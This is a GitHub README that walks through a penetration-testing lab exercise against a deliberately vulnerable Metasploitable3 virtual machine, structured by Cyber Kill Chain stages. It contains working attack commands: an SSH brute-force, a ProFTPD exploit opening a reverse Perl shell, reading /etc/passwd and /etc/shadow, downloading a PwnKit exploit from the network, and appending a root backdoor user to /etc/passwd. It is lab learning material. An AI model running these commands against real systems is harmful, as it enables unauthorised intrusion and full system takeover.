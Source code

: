 # Cyber-Kill-Chain

## Objective

The objective of the “Cyber Kill Chain” project is to deepen my understanding of penetration testing through hands-on experience and the application of the Cyber Kill Chain to a real-world scenario. By simulating a red team attack on a Metasploitable server, I aim to enhance my skills in identifying vulnerabilities, executing exploits, and navigating the complexities of trial and error until achieving success. This project underscores the symbiotic relationship between red team and blue team operations, emphasizing that proficiency in one necessitates a comprehensive understanding of the other.

### Skills Learned

- Gained a deeper understanding of nmap: Identified network ranges, open ports and services
- Hands-on experience with identifying potential vulnerabilities and executing exploits
- Learned techniques for escalating privileges on compromised systems
- Furthered my experience in Metasploit executing exploits
- Used John the Ripper for password cracking
- Established reverse shells and executed commands on compromised systems including file manipulation
- Enhanced problem-solving abilities and research skills
- Applied the Cyber Kill Chain to a real world scenario

### Tools Used

- VirtualBox - A Virtualization software that allows users to create and run virtual machines
- Kali Linux - A Debian-based linux distribution designed for forensic, penetration testing and security research
- Nmap - A network scanning tool used to discover hosts and services on a computer network. It provides information about open ports, running services and their versions
- Metasploit Framework - An open-source penetration testing framework that helps find, exploit and validate vulnerabilities.
- John the Ripper - A password cracking tool that supports various password hash types
- Metasploitable3 - A virtual machine built with a large amount of security vulnerabilities
  
## Steps

### Reconnaissance
- To find my IP address
  ```bash
  ip a s
  ```
  ![ip a s](https://github.com/user-attachments/assets/dc35ee6c-cd5b-40b6-9c1b-9a0d2a8bc2f5)
- The IP and subnet range found is 10.0.2.0/24
- Pinged the network to see which hosts were active:
  
  ```bash
  nmap -sn 10.0.2.0/24
  ```
  
  ![nmap -sn](https://github.com/user-attachments/assets/d7dec4e2-fb39-48ed-9f9d-6137bcdcd1fe)

- To gather information on the active hosts on the network:
  
  ```bash
  nmap -sV 10.0.2.6 -p 0-65535
  ```

  ![nmap -sV](https://github.com/user-attachments/assets/f65cd838-709c-40d0-95fe-2a347c6db6d7)

- The nmap -sV scan provided the evidence needed to pinpoint Metasploitable3 to 10.0.2.6
- To gather more information, an aggressive scan was ran:
  
  ```bash
  nmap -A 10.0.2.6
  ```

  ![nmap -A 1](https://github.com/user-attachments/assets/01f9b707-99a4-4426-8523-bedbf800c43b)
  ![nmap -A 2](https://github.com/user-attachments/assets/a6c3ab26-ce48-49c5-8fbc-fa3cce581cb4)

- A user enumeration was ran on port 445:

  ```bash
  nmap --script smb-enum-users -p 445 10.0.2.6
  ```

  ![Chewbacca p445](https://github.com/user-attachments/assets/540ceaa0-4e1c-4572-99da-ec6d5b04d6b4)

- The nmap scanned provided a username: Chewbacca
- While exploring for another vulnerability, an SSH brute-force was attempted on the user

### Weaponization, Delivery, Exploitation
- To attempt an SSH brute-force, the following was ran in Metasploit:
  
  ```bash
  msfconsole 
  use auxiliary/scanner/ssh/ssh_login
  set rhosts 10.0.2.6
  set username chewbacca
  set pass_file /user/share/wordlists/rockyou.txt
  set verbose true
  set threads 16
  set stop_on_success true
  run
  ```

  ![bruteforce](https://github.com/user-attachments/assets/bb4b9796-74c7-4b06-8174-f4e255a3ba34)

- A search was ran in Metasploit on ProFTPD to investigate potential exploits:

  ![proftpd search](https://github.com/user-attachments/assets/23139e70-6b78-4b2e-943a-8679bad7abde)

- Exploit-DB was used to cross-reference the exploits associated with ProFTPD in Metasploit:

  ![exploit-db](https://github.com/user-attachments/assets/1d7ff8cd-2f78-46ae-98e9-008be36401d5)

- To use the modcopy ProFTPD exploit, the following was used in Metasploit:

  ```bash
  set rhosts 10.0.2.6 - to set target host
  set sitepath /var/www/html
  set payload cmd/unix/reverse_perl
  set lhost 10.0.2.5
  run
  ```
  
- After the payload was sent, a successful reverse shell connection was executed:

  ![Protdp exploit](https://github.com/user-attachments/assets/fcd7c6b2-190e-4f3b-ac91-72c49feb8096)

- Once the connection to the target host was successful, the directory was changed to /etc to move into the password and shadow file directory
  ```bash
  cd /etc

- To collect information on the users in the system:
  
  ```bash
  cat /etc/passwd
  ```

  ![passwd](https://github.com/user-attachments/assets/ca56921b-4052-4737-b17d-8f515950fbff)

- After the contents from the passwd file were collected, I attempted to access the contents in the shadow file with:

  ```bash
  cat /etc/shadow
  sudo cat /etc/shadow
  ```
  
- The user account that was accessed did not have permissions to view the /etc/shadow file nor any sudo privileges after attempting 'sudo -l'
- To discover which user is being used:
  ```bash
  whoami
  ```

- To access the shadow file, I needed access to the server with appropriate permissions, the following command was ran:

  ```bash
  find / -perm -4000 -type f 2>/dev/null
  ```
  - find / - starts the search for files and directores from the top of the directory and down
  - -perm - specifies the search to files with specific permissions
  - -4000 - identifies files with the setuid bit set. (If a regular user executes the file, it runs with the privileges of the file's owner, often root. Helps to identify security flaws)
  - 2>/dev/null - redirects the the error messages to not display in the terminal
 
  ![noshadownosudo](https://github.com/user-attachments/assets/d27c2375-dd93-474b-b036-57a8f17f5c5e)

### Installation

- Pkexec allows an authorized user to execute a program as another user, the version number was checked and identified as pkexec version 0.105
- Exploit-DB was checked for exploits associated with pkexec version 0.105 and the following was found:
  - https://www.exploit-db.com/exploits/50011
  - This exploit, identified as CVE-2021-3560, allows a local attacker to gain elevated privileges by creating a new user with administrative rights and settings its password
- To download the exploit directly into the target host:

  ```bash
  wget https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh -O /tmp/PwnKit.sh
  ```

- To check if the download was successful, the directory was changed to /tmp and listed the files in the directory
  
  ```bash
  cd /tmp
  ls -l
  ```

  ![pkexecdownload](https://github.com/user-attachments/assets/bf574cf4-09a3-4884-9c28-d1c10e7a087b)

- To run the exploit, the permission had to be modified, however, the current user account wasn't able to

  ![unsuccessfulpermission](https://github.com/user-attachments/assets/08887a1b-53f2-4790-8b71-e74f63a476d3)

- After an another unsuccessful attempt to access the /etc/shadow file, I started to research online and came across a potential security flaw with /etc/passwd.
  Since the current user account had write permissions, I generated a hashed password with openssl on my host machine:

  ```bash
  openssl passwd -1 -salt xyz password
  ```

- On the target machine, in the reverse shell, I ran the following command to add a new user to /etc/passwd with root privileges
  ```bash
  
  echo 'hacker:$1$xyz$cEUv8aN9ehjhMXG/kSFnM1:0:0:Hacker:/root:/bin/bash' >> /etc/passwd
  ```
 ### Command and Control
 
- To switch to the new user:
  
  ```bash
  su hacker
  ```
  
  ![echo](https://github.com/user-attachments/assets/c6e5abd3-6961-4186-b1c8-ea55f192a02a)

### Actions on Objectives
  
- The newly created account was not only able to access the /etc/shadow file, but had root access to the entire system

  ![root access](https://github.com/user-attachments/assets/52210765-64ed-4c38-a8da-b9fe24a7b357)






